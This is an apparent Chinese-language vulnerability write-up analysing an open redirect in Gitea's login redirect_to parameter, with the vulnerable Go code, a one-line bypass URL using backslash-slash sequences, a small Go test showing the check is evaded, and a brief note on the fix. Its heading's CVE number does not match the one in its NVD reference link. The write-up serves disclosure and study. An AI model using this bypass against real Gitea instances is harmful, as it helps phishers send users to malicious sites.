

# CVE-2022-0415 gitea open redirect

## 漏洞信息

- 漏洞类型：开放式重定向
- 漏洞版本：gitea prior to 1.16.5
- 漏洞简介：浏览器差异导致的url绕过

## repo介绍
gitea是一个go语言实现的git服务器，目前在github上已经有29.7k个star。

## 漏洞分析
在gitea的登陆页面上，会附加一个`redirect_to`参数来确定成功登陆以后跳转的页面。处理逻辑定位到[这里](https://github.com/go-gitea/gitea/blob/main/modules/context/context.go)处理了跳转的逻辑，对需要跳转的`loc`进行了简单的检查，判断是否存在以当前gitea项目所在的`settings.AppURL`以外的内容，如果是就跳过这个`loc`。
```go
// RedirectToFirst redirects to first not empty URL
func (ctx *Context) RedirectToFirst(location ...string) {
	for _, loc := range location {
		if len(loc) == 0 {
			continue
		}

		u, err := url.Parse(loc)
		if err != nil || ((u.Scheme != "" || u.Host != "") && !strings.HasPrefix(strings.ToLower(loc), strings.ToLower(setting.AppURL))) {
			continue
		}

		ctx.Redirect(loc)
		return
	}

	ctx.Redirect(setting.AppSubURL + "/")
}
```
这里的检测方式可以被绕过。使用如下跳转参数
```
https://try.gitea.io/user/login?redirect_to=/\/\/\/\/\/\/\/\/\/\/\/\/\/\thedailywtf.com
```
这里简单写一段代码做测试
```go
package main

import (
	"fmt"
	"net/url"
	"strings"
)

func main() {
	loc := "/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\/\\thedailywtf.com"
	u, err := url.Parse(loc)
	if err != nil || ((u.Scheme != "" || u.Host != "") && !strings.HasPrefix(strings.ToLower(loc), strings.ToLower("http://try.gitea.io"))) {
		fmt.Println("evil input")
	}
	fmt.Println(u)
}
```
输出内容为
```
/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5C/%5Cthedailywtf.com
```
说明成功绕过检测。然后这个url会被返回给浏览器。一部分浏览器在解析时会将这个url理解为
```
//thedailywtf.com
```
导致开放式重定向

## 修复方式
添加了判断，过滤上面出现的情形


## 参考链接
- https://huntr.dev/bounties/4fb42144-ac70-4f76-a5e1-ef6b5e55dc0d/
- https://nvd.nist.gov/vuln/detail/CVE-2022-1058